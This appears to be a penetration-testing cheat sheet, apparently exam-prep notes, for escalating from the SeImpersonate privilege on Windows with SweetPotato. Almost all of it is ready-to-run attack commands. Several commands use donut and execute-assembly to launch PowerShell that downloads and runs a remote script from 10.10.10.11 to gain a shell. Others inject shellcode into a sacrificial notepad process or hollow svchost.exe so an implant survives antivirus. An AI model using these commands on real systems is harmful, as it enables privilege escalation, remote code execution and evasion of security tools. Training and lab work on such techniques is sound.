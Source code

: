 # SeImpersonate Privileges

### 1) We can use donut to get the shell, change IP address

    donut -i /home/kali/tools/bins/csharp-files/SweetPotato.exe -a 2 -b 2 -p "-p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a \"IEX((new-object net.webclient).downloadstring('http://10.10.10.11/hav0c-ps.txt'))\"" -o /home/kali/tools/bins/csharp-files/SweetPotato.bin

### 2) Using EfsRpc

    donut -i /home/kali/tools/bins/csharp-files/SweetPotato.exe -a 2 -b 2 -p "-e EfsRpc -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a \"IEX((new-object net.webclient).downloadstring('http://10.10.10.11/hav0c-ps.txt'))\"" -o /home/kali/tools/bins/csharp-files/SweetPotato.bin

### 3) Run directly using exec-assembly

    execute-assembly /home/kali/tools/bins/csharp-files/SweetPotato.exe -p C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -a \"-ep bypass -nop iex (New-Object System.Net.WebClient).DownloadString(\'http://10.10.10.11/hav0c-ps.txt\')\"
    execute-assembly /home/kali/tools/bins/csharp-files/SweetPotato.exe -e EfsRpc -p C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -a \"-ep bypass -nop iex (New-Object System.Net.WebClient).DownloadString(\'http://10.10.10.11/hav0c-ps.txt\')\"

### 4) Run a sacrificial process

    execute notepad
    ps -e notepad

### 5) Inject into the process - RECOMMENDED

    execute-shellcode -S -r -I 30 -p 2060 /home/kali/tools/bins/csharp-files/SweetPotato.bin

### 6) We can run this and get another shell

    execute-shellcode -i -S -r -I 30 /home/kali/tools/bins/csharp-files/SweetPotato.bin
    execute-shellcode -S -r -I 30 /home/kali/tools/bins/csharp-files/SweetPotato.bin

### 7) Once we get the shell, make sure to do implant duplication using phollow as this one will get killed by AV sooner or later

    hollow svchost.exe /home/kali/OSEP/hav0c/sliver.x64.bin
